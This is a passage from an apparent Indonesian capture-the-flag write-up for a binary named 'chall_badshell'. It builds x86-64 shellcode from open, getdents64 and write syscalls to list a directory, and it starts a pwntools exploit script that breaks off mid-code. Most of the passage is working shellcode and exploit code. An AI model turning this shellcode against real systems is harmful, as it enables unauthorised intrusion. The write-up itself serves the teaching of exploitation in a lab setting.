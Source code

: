    sys_getdents64 memiliki 3 argumen juga (rdi: fd(file descriptor), rsi: linux_dirent64 \*dirent, rdx: int count), jadi pada rdi kita masukkan stack pointer untuk mereferensikan file descriptor sys_open sebelumnya pada rax, rsp untuk buffer dan rdx buffer size 0x1000 atau 4096 menjadi sys_getdents64(rax, rsp, 0x1000)

3. Craft sys_write

   ```asm
   mov rdi,1
   mov rsi,rsp
   mov rdx,0x1000
   push 0x1
   pop rax
   syscall
   ```

   sys_write memiliki 3 argumen juga (rdi: fd(file descriptor), rsi buf, rdx buf_size) menjadi sys_write(1, rsp, 0x1000)

   Tapi gini aja belum work, entah kenapa stack pointer harus diisi `mov rsp,qword ptr fs:0x0` terlebih dahulu, kalau dari chatgpt sih untuk membuat thread stack yang baru..

4. Finishing direktori listing

   Full asm code

   ```asm
    mov rsp, qword ptr fs:0x0
    push 0x2e
    mov rdi,rsp
    xor rsi,rsi
    xor rdx,rdx
    push 0x2
    pop rax
    syscall

    mov rdi,rax
    mov rsi,rsp
    mov rdx,0x1000
    push 0xd9
    pop rax
    syscall

    mov rdi,1
    mov rsi,rsp
    mov rdx,0x1000
    push 0x1
    pop rax
    syscall
   ```

Lalu buat script python
{% raw %}

```py
#!/usr/bin/python3
from pwn import *
import sys
exe = './chall_badshell'
context.binary = ELF(exe, checksec=0)
context.bits = 64
io = process(exe)

p = asm('''
    mov rsp, qword ptr fs:0x0
    push 0x2e
    mov rdi,rsp
    xor rsi,rsi
    xor rdx,rdx
```